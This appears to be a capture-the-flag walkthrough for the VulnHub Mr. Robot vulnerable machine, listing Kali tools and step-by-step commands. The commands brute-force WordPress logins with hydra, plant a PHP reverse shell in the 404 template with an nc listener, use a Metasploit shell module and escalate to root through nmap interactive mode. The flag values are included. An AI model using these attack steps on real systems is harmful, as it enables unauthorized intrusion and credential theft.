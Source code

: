 Project 1.0

Overview

The Mr. Robot vulnerable machine has three keys hidden in different locations. The goal is to find all three. Each key is progressively difficult to find. /n
github.com/besoben/project01 has a .docx file which contains screen shots of every step. Please enjoy.

Operating Systems used:

Kali Linux
•	https://www.kali.org/get-kali/

Mr. Robot:1 VulnHub
•	https://www.vulnhub.com/entry/mr-robot-1,151/

Tools/Commands used:

nmap
version 7.93
Nmap is a network scanner created by Gordon Lyon. Nmap is used to discover hosts and services on a computer network by sending packets and analyzing     the responses. Nmap provides a number of features for probing computer networks, including host discovery and service and operating system detection

nikto
version 2.1.6
Nikto is a free software command-line vulnerability scanner that scans webservers for dangerous files/CGIs, outdated server software and other           problems. It performs generic and server type specific checks. It also captures and prints any cookies received

gobuster
Gobuster is a tool used to brute-force:  URIs (directories and files) in web sites,  DNS subdomains (with wildcard support), Virtual Host names on       target web servers, Open Amazon S3 buckets, Open Google Cloud buckets, TFTP servers..

dirbuster
version OWASP DirBuster 1.0-RC1
DirBuster is a multi threaded java application designed to brute force directories and files names on web/application servers. Often is the case now     of what looks like a web server in a state of default installation is actually not, and has pages and applications hidden within. DirBuster attempts     to find these.

wpscan
version 3.8.22
The WPScan CLI tool is a free, for non-commercial use, black box WordPress security scanner written for security professionals and blog maintainers to   test the security of their sites. The WPScan CLI tool uses a database of 38,431 WordPress vulnerabilities.

metasploit
version 6.2.36
The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS   signature development. It is owned by Boston, Massachusetts-based security company Rapid7

burpsuite
version 2022.12.5
Burp Suite is an integrated platform and graphical tool for performing security testing of web applications, it supports the entire testing         process, from initial mapping and analysis of an application's attack surface, through to finding and exploiting security vulnerabilities.

hydra
version 9.4
Hydra is a pre-installed tool in Kali Linux used to brute-force usernames and passwords to different services such as FTP, ssh, telnet, MS SQL,         etc. Brute force can be used to try different usernames and passwords against a target to identify the correct credentials.

net cat
version 1.10-47
The Netcat ( nc ) command is a command-line utility for reading and writing data between two computer networks The communication happens using           either TCP or UDP. The command differs depending on the system ( netcat , nc , ncat , and others).
	

Walk through:

Footprinting and enumeration:

whoami
	notes user

ip address 
	notes system ip

sudo -i
	super user/ root interactive

nmap -O [ipadress/range]
	scans range of ip addresses and lists operating system 

arping -h [ipaddress/range]
	this pings the arp network to map local network

nikto -h [target-ipaddress]
	vulnerbility scanner, set host [ip]

gobuster dir -u [target-url/ipaddress] -w [/usr/share/wordlist/dirbuster/directory-list.2.3-small.txt]
dictionary attack, against url searching for hidden directories

DirBuster application w report generation
target url, wordlist, don't be recursive (unneeded in this), File extension "php, txt"

Physically explored the website, url input, triggered 404, accessed wp-login, robots.

FIRST FLAG FOUND, [target-ipaddress/robots] > [target0ipaddress/flag-1-of-3.txt] and [target-ipaddress/fsocity.dic]

download [fsocity.dic]

cat head [fsocity.dic]
	to see what the first few lines of text were
wc [fsocity.dic]
	word count, it's huge [that's what she said]
cat [fsocity.dic] | sort -U  > [sorted_fsocity.dic]  
	sorts all unique into a seperate file
wc [sorted_fsocity.dic]
	word count, significantly lower

wpscan [target-ipaddress]
	find information partaining to word press

Burp Suite
used integrated browser proxy, intercepted the login action on the wp-login page.
shows that it's a post form(top), log=username and pwd=password(bottom)

Brute force for username and password: 

hydra -L [sorted_fsocity.dic] -p unkown [target-ipaddress] http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-sumbit=Log+In:F=Invalid Username
	-L list file upload
	-p unkown sets the password as uknown 
	http-post-form, because it shown on burp as a post form
	/wp-login.php, post form location
	log and pass set as -L and -p, log and pass can be found on the burp 
		interception as being identifiers
	F=Invalid Username sets fail point that is referenced in the error message when a wrong username is entered

USERNAME IS ELLIOT
Option 1:
hydra -l elliot -P [sorted_fsociety.dic]  [target-ipaddress] http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-sumbit=Log+In:F=is incorrect'
	-l elliot, lower case to indicate exact user
	-P password file
	http-post-form, because it shown on burp as a post form
	/wp-login.php, post form location
	log and pass set as -L and -p, log and pass can be found on the burp 
		interception as being identifiers
	F=is incorrect sets fail point that is referenced in the error message when a wrong password is entered	
Option 2:
wpscan -u elliot -P [sorted_fsociet.dic]
	-u sets user as elliot, and -P sets password lists. syntax is easier, but enumeration on user id's is limited, so you must have a user id if unique user. It will check against admin etc. wpscan

[wp-username] = elliot 
[wp-pasword] = ER28-0652

Now we can log into wordpress. 

Forward Facing Application Leverage and generate damion shell:
Option #1
Log into wordpress application
Applications>edit>Edit 404 page template
Reverse Shell on the 404 page
	php reverse shell code: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
	php reverse shell, changed [attacker-ipaddress]/[port]

nc -lvnp 443
	net cat -listen, verbose, skip dns lookup, port [port]

Go back to the website, and place an incorrect url to trigger the 404 page, which in turns activates the reverse shell. 
WE ARE IN THE TERMINAL 
now in bin/sh$

Option #2
metasploit
	msfconsole
	search wordpress shell
	use 1
	show options
	set username [wp-username]
	set password  [wp-password]
	set rhost [targetip]
	exploit
	ERROR
	advanced options
	set wpcheck false
	exploit
	shell 

gain terminal access
whoami
group id
pwd
ls
cd /home 
ls
cd /robot
ls

SECOND FLAG FOUND [flag]/ username:[password ] but it's md5 encrypted
	cracked hash website (crack station) has it cracked and listed as [abcdefghijklmnopqestuvwxyz]

switch to robot user
su robot, you get an error stating you need to be in a terminal

Lateral Movement, New Shell, New User Owned:

python -c 'import pty;pty.spawn("/bin/bash")'
spawns a terminal
su robot with the password [abcdefghijklmnopqestuvwxyz]
cd /robots
ls
cat key-2-of-3.txt = 822c73956184f694993bede3eb39f959
find / -perm -4000 -type f 2>/dev/null
	finds files that being ran by their owner
nmap --version
research time -- it's vulnerable! 

Root escallation: 

nmap --interactive
nmap !sudo /bin/bash
exit
nmap !sh
cd /root
ls
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
